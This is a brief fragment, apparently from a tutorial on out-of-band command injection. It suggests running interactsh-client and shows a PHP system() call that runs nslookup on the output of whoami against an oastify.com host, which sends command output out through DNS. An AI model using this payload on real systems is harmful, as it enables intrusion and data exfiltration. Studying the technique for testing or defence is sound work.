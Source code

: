 Your server will get 1 request per line of output — enough to reconstruct the full response.

* * *

## 💣 Bonus: Use Interactsh for Both

```bash
interactsh-client
```

Then craft a command:

```php
system("nslookup `whoami`.xyz.oastify.com");
```

🔥 It'll show up instantly in your Interactsh terminal.
